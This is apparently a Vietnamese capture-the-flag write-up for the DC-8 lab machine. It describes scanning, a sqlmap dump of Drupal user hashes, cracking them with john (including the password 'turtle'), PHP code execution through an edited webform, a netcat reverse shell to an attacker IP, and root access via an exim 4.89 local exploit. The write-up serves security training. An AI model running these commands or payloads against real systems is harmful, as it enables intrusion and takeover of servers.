# Extra Labs 8: DC-8 on vulhub

## Description

DC-8 tiếp tục là một phòng Lab được thiết kế có chủ đích để bạn tích lũy thêm kinh nghiệm trong thế giới kiểm thử xâm nhập (penetration testing).

Thử thách lần này là một sự kết hợp thú vị: nó vừa là một bài Lab thực thụ, vừa là một bản "chứng minh khái niệm" (proof of concept) để xem liệu việc cài đặt và cấu hình xác thực hai yếu tố (2FA) trên Linux có thực sự ngăn chặn được việc máy chủ bị khai thác hay không. Ý tưởng này xuất phát từ một câu hỏi về 2FA trên Linux được đặt ra trên Twitter, cùng với sự gợi ý từ @theart42.
## Mục tiêu tối thượng của bạn là vượt qua lớp bảo mật 2FA, chiếm quyền root và đọc được chiếc flag duy nhất. Có lẽ bạn sẽ chẳng hề hay biết 2FA đã được cài đặt và cấu hình cho đến khi bạn cố gắng đăng nhập qua SSH, nhưng chắc chắn là nó đang ở đó và đang làm tốt nhiệm vụ của mình.

Kỹ năng Linux và sự thành thạo với các dòng lệnh là điều bắt buộc, cùng với đó là một chút kinh nghiệm sử dụng các công cụ pentest cơ bản.

Đối với những người mới bắt đầu, Google là một trợ thủ đắc lực, nhưng bạn luôn có thể tweet cho tôi tại @DCAU7 để được hỗ trợ mỗi khi bị "tắc đường". Tuy nhiên, hãy nhớ rằng: Tôi sẽ không bao giờ đưa ra đáp án trực tiếp, thay vào đó, tôi sẽ gợi ý cho bạn một hướng đi để bạn có thể tiếp tục tiến về phía trước.
## Các bước thực hiện

Sử dụng lệnh netdiscover để tìm địa chỉ IP của máy mục tiêu trong mạng nội bộ:



Sử dụng nmap để quét các cổng đang mở. Kết quả quét sẽ cho thấy máy mục tiêu đang mở 2 cổng: 80 (HTTP) và 20 (SSH)

```bash
nmap -sC -sV -p- 10.130.10.142
```



Truy cập thử vào trang web của máy dc-8:



Thử trinh sát với droopescan



Sau khi scan xong em thấy được link đăng nhập

Em bất ngờ phát hiện ở trang who we are, mặc dù có cùng tiêu đề nhưng lại có đến 2 link dẫn Who We Are





Thử dùng sqlmap để tìm tài khoản và mật khẩu

```bash
sqlmap -u "http://10.130.10.143/..." -D d7db -T users -C "name,mail,pass" --dump
```



Vậy là chúng ta tìm được 3 user và hashed password

Em tiến hành thử brute force password, trước tiên em cần kiểm tra loại mã hóa của pass đã, em dùng hashid:

```bash
hashid
```



Tạo file hash.txt chứa các password hash



Dùng lệnh john --format=Drupal7 hash.txt /usr/share/wordlists/rockyou.txt



Em thấy được mật khẩu turtle hợp lệ

Em thử đăng nhập với 2 user mà chúng ta vừa thấy



Thành công đăng nhập với user john:turtle



Em thấy một phần có thể tạo Contact Us có thể chỉnh sửa lại trang, đặc biệt có thể chuyển sang format php





Lưu lại rồi điền thông tin và ấn submit, chúng ta sẽ được kết quả như hình



Vậy thì giờ tiêm mã độc vào thôi:



Lưu lại, và thử truy cập địa chỉ

http://10.130.10.143/node/3/done?sid=YOUR_ID&token=YOUR_TOKEN&cmd=id



Tiếp tục khai thác tiếp LFI, giờ em tạo reverse shell:

&cmd=nc+-e+/bin/bash+10.130.10.132+4444



Trước đó mở port 4444 trên máy kali để lắng nghe, và kết quả bắt được



Tìm tất cả thư mục mà user hiện tại có quyền thực thi



Em thấy exim4, em thử điều tra sâu hơn về exim4



Kết quả cho thấy exim là một đặc vụ chuyển phát thư, hiện tại exim4 đang chạy version 4.89, em sẽ tìm xem có lỗ hổng nào khai thác được ở phiên bản này không:

```bash
Searchsploit exim
```



Em thấy 1 kết quả phù hợp với ý định của chúng ta

Em tiến hành tải về

```bash
searchsploit -m linux/local/46996.sh
```





Giờ tải file này về máy nạn nhân:











Vậy là chúng ta đã có quyền root và đọc được file flag.txt